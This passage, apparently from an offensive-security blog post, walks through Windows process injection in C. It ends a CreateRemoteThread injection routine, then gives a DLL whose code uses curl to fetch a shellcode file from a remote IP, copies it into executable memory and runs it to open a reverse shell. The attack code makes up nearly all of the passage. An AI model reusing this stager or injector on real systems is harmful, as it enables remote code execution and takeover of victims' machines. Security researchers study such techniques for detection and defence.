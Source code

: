 ```c

	hThread = CreateRemoteThread(hProcess, NULL, 0, startThis, rBuffer, 0, &TID);

	if (hThread == NULL) {
		printf("%s failed to get a handle to thread, error: %ld", e, GetLastError());
		CloseHandle(hProcess);
		return EXIT_FAILURE;
	}

	printf("%s got a handle to the newly-created thread (%ld)\n--0x%p\n", k, TID, hThread);
	printf("%s waiting for thread to finish execution\n", i);

	WaitForSingleObject(hThread, INFINITE);
	printf("%s thread finished executing, cleaning up...\n", k);

	CloseHandle(hThread);
	CloseHandle(hProcess);

	printf("%s finished! see you next time!", k);

	return EXIT_SUCCESS;

}
```

# Inject Shellcode
So now to just slap in some rev shell shellcode and call it a day.

Instead of grabbing a second thread to the same process from the dll I'm just going to use the dll's own process.

So virtualalloc memcpy then execute with a http stager, just like in the shellcode injection blog. (Was going to do smb stager but to lazy *lol*)
```c
#include <windows.h>

int injectionbit() {

	FILE* fpipe;
	const char* command = "curl http://192.168.153.128/code.bin";
	char c = 0;
	unsigned char code[460];
	int counter = 0;
	fpipe = (FILE*)_popen(command, "r");
	if (fpipe == NULL){
		return EXIT_FAILURE;
	}
	while(fread(&c, sizeof(c), 1, fpipe)) {
		code[counter] = c;
		counter += 1;
	}
	_pclose(fpipe);
	
	void* exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, code, sizeof(code));
	((void(*)())exec)();

	return EXIT_SUCCESS;
}

BOOL WINAPI DllMain(HINSTANCE hModule, DWORD Reason, LPVOID lpvReserved) {

	switch (Reason) {
```